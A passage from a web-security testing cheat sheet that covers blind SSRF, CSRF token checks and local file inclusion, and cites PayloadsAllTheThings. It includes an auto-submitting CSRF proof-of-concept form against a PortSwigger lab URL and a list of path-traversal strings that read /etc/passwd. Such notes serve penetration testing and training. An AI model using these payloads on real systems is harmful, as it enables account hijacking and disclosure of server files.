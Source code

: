 ##### Blind

Try to insert burp-collaborator in Referrer header! then check dns/http responses.


Github:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md


# CSRF

Testing CSRF Tokens:
1. Remove the CSRF token and see if application accepts request
2. Change the request method from POST to GET
3. See if CSRF token is tied to user session

Testing CSRF Tokens and CSRF cookies:
1. Check if the CSRF token is tied to the CSRF cookie
- Submit an invalid CSRF token
- Submit a valid CSRF token from another user
2. Submit valid CSRF token and cookie from another user

Select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".

Form POC Ex-: 

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script> document.forms[0].submit(); </script>

```


Github :
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF%20Injection/README.md

# LFI

```
../../../etc/passwd
../../../etc/passwd%00
%252e%252e%252fetc%252fpasswd
%252e%252e%252fetc%252fpasswd%00
....//....//etc/passwd
..///////..////..//////etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

Github:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md


# Information-Disclosure
